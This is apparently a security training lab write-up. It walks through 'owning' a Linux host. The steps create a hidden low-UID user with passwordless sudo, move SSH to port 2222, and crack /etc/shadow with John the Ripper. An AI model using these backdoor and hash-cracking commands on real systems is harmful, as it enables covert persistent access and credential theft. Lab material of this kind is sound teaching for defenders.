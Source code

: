 ## Advanced Bash - Owning the System

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -M sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 888 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 888 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo` 

![](Images%5Cgive-secret-user-sudo-access.jpg)
<br>
<br>
![sudo -k to clear existing password cache.](Images%5Csysd-user-execute-commands-%20with-sudo.jpg)
    
- `sudo -k` to clear existing password cache.
<br>
<br>

6. Test that `sudo` access works without your password:

![](Images%5Cno-password-needed.jpg)

<br>

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

![](Images%5Cssh-port-2222.jpg)

<br>

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo service sshd restart`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
![](Images%5Cssh-sysd.jpg)

4. Use `sudo` to switch to the root user:
![](Images%5Croot-ssh.jpg)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

![](Images%5Ccracking-passwords.jpg)
---



